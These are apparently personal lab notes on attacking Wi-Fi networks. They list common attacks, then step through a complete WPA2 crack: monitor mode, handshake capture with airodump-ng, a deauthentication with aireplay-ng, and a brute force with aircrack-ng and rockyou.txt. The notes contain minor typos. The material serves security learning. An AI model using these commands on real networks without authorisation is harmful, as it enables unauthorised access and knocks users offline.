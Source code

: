 #cybersecurity #wireless 

WiFi signals are broadcasted with a unique **SSIS**
We can connect if we know the pre-shared key **PSK**

### Wi-Fi's Pivotal Role in Organizations
A malicious actor from the outside could still see the broadcasted Wi-Fi SSID

### Attacks on Wi-Fi
- **Evil twin attack** : the attacker creates a fake access point that has similar name to the trusted one. The attack starts with the attacker sending de-authentication packets to all the users connected to their Wi-Fi
- **Rogue access point**: The attacker sets up an open Wi-Fi access point near or inside the organization's physical premises. Accidental join
- **WPS Attack**: 8-digit pin vulnerable. The attack is made by initiating a WPS handshake and capturing the router's response. The response contains information of the PIN for brute-force attack.
- **WPA/WPA2 cracking**: Attackers start by sending de-authentication packets to a legitimate user. When he disconnects they try to reconnect, and a 4way handshake with the router takes place. The attacker turns its adaptor into monitor mode and captures the handshake. Then bruteforce

### WPA/WPA2 Cracking

#### The 4-way Handshake
It's a process that helps a client device and a Wi-Fi router confirm they both have the right password or PSK:
- **Router sends a challenge**
- **Client responds with encrypted information**
- **Router verifies and sends confirmation**
- **Final check and connection established**


### The practical
`iw dev` shows any wireless devices and their configuration
```
phy#2 
	Interface wlan2 
		ifindex 5  
		wdev 0x200000001 
		addr 02:00:00:00:02:00 
		type managed 
		txpower 20.00 dBm
```

The `type` is managed, it/s a standard mode.

#### Scan nearby Wi-Fi
`sudo iw dev wlan2 scan`
Important information:
- **BSSID**
- Presence of **RSN (Robust Security Network)** indicates the network is using WPA2
- **Group and Pairwise ciphers** are **CCMP** Counter Mode with Cypher Block Chaining Message Authentication Code Protocol is the encryption methos used by WPA2
- **Authentication suites** value inside RSN is **PSK**
- `DS Parameter set` is channel 6. The channel refers to a specific frequency range within the broader Wi/Fi spectrum
- 2.4 ghz channels 1,6,11


#### Monitor Mode
Primarily used for network analysis and security auditing.
The interface listens to all wireless traffic on a specific channel
`sudo ip link set dev wlan2 down` to turn off the device
`sudo iw dev wlan2 set type monitor`
`sudo ip link set dev wlan2 up`


### The attack
In a first terminal we start capturing Wi-Fi traffic with `sudo airodump-ng wlan2`
Knowing the BSSID we run
`sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`
Targeting the specific network

In the second terminal we will launch the deauthentication attack
`sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`
The second BSSID is the target

The we see the handshake and try to crack the PIN
`sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`

We found the key `fluffy/champ24`
We can connect
```
wpa_passphrase MalwareM_AP 'fluffy/champ24' > config
sudo wpa_suppicant -B -c config -i wlan2
```

